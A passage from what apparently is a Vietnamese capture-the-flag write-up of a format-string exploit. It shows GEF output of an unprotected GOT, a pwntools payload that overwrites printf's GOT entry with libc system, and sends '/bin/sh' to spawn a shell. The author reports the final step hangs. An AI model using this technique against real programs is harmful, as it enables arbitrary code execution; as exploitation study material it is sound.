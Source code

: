 ```java
gef➤  got

GOT protection: No RelRO | GOT functions: 7

[0x55a799202498] puts@GLIBC_2.2.5  →  0x7fa9f2d10420
[0x55a7992024a0] fread@GLIBC_2.2.5  →  0x7fa9f2d0ee60
[0x55a7992024a8] printf@GLIBC_2.2.5  →  0x7fa9f2cedc90
[0x55a7992024b0] fgets@GLIBC_2.2.5  →  0x7fa9f2d0e630
[0x55a7992024b8] getchar@GLIBC_2.2.5  →  0x7fa9f2d17560
[0x55a7992024c0] setvbuf@GLIBC_2.2.5  →  0x7fa9f2d10ce0
[0x55a7992024c8] exit@GLIBC_2.2.5  →  0x7fa9f2cd2a40
gef➤  p system
$3 = {int (const char *)} 0x7fa9f2cde290 <__libc_system>
```
Do system và printf chỉ khác nhau byte thứ 4 và 5 nên ta chỉ cần overwrite phần đấy thôi là đủ.

```python
# overwrite got
system = libc.sym['system'] >> 8 & 0xffff # lấy địa chỉ hàm system, dịch 8 bit rồi lấy 2 byte sau cùng
payload = f'%{system}c%10$hn'.encode()
payload = payload.ljust(16, b"A") # pad để cho stack không bị lẻ
payload += p64(exe.got['printf']+1) # +1 để byte sau cùng không bị overwrite
p.sendlineafter(b'v2: ', payload)
```
Bởi vì địa chỉ got thì nó nằm trên vùng nhớ của binary (có đầu 5) mà libc lại nằm ở vùng nhớ khác nên mình phải leak cả 2 cái ra là vậy.

```java
gef➤  got

GOT protection: No RelRO | GOT functions: 7

[0x5652a69dc498] puts@GLIBC_2.2.5  →  0x7f90f9847420
[0x5652a69dc4a0] fread@GLIBC_2.2.5  →  0x7f90f9845e60
[0x5652a69dc4a8] printf@GLIBC_2.2.5  →  0x7f90f9815290
[0x5652a69dc4b0] fgets@GLIBC_2.2.5  →  0x7f90f9845630
[0x5652a69dc4b8] getchar@GLIBC_2.2.5  →  0x7f90f984e560
[0x5652a69dc4c0] setvbuf@GLIBC_2.2.5  →  0x7f90f9847ce0
[0x5652a69dc4c8] exit@GLIBC_2.2.5  →  0x7f90f9809a40
gef➤  p system
$5 = {int (const char *)} 0x7f90f9815290 <__libc_system>
```
Ta đã overwrite thành công, bước cuối là gửi chuỗi /bin/sh là ta tạo shell thành công
```python
p.sendlineafter(b'quit]?\n', b"B")
p.sendlineafter(b'tag?\n', b"A")
p.sendlineafter(b'v2: \n',b'/bin/sh\0')
```
Đến đây thì k hiểu sao chương trình của mình lại bị treo. Khả năng cao là do khi ta đã overwrite hàm printf thành system rồi nhưng nó lại nhận các tham số không hợp lệ thành ra bị treo. Phải gửi được chuỗi /bin/sh hoặc là sẽ phải overwrite printf thành system tại round 3. 
